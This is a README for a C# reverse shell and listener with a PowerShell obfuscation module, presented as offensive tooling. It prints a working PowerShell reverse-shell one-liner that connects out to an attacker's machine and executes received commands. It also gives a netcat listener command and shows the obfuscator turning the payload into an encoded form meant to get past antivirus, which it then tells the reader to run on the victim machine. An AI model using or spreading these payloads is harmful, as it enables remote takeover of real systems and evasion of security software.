 # uCShiwa
TLS encrypted reverseshell and listener in C# with a PowerShell obfuscation module.

![exemple1](https://github.com/Aif4thah/uCShiwa/blob/main/POC-v2-windows.PNG)

## Help & Documentation

Execute it without any options to print help

## Linux

Use the .NET Core to run the listener from Linux

![exemple2](https://github.com/Aif4thah/uCShiwa/blob/main/POC-v2-linux.PNG)

## Disclamer

Consider online pfx file as compromised, use you own certificates !

## Powershell (beta)

`pwsh 1` to switch in powershell mode

## Using the Standalone Shellingan.ps1

Simple Recursive Powershell Command Obfuscation - for training purpose

## Import

```powershell
. .\shellingan.ps1
```

## Hello World 

```powershell
Invoke-Shellingan -cmd 'write helloworld' -iex $true -recurse 1
```
Then you just have to copy-paste the output where you want execute it.

## Proof Of Concept

![exemple2](https://github.com/Aif4thah/uCShiwa/blob/main/POC-Shellingan.png)

From your attack machine:
```console
nc64.exe -lnvp <port>
```

```powershell
$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <attacking machine>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()
```

```console
This script contains malicious content and has been blocked by your antivirus software.
```

```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
<O> SHELLINGAN : Simple Recursive Powershell Command Obfuscation - for training purpose
|
<cmd> : $c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT...
<iex> : True
<rec> : 0
|
<O> SHELLINGAN:
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Copy and Execute the output on the victim machine to get your reverse shell !

##Options

```console
-cmd: Mandatory
-iex: add invoke-expression (usefull to execute your commands)
-recurse: number of obfuscation loop (increase output length!)
```

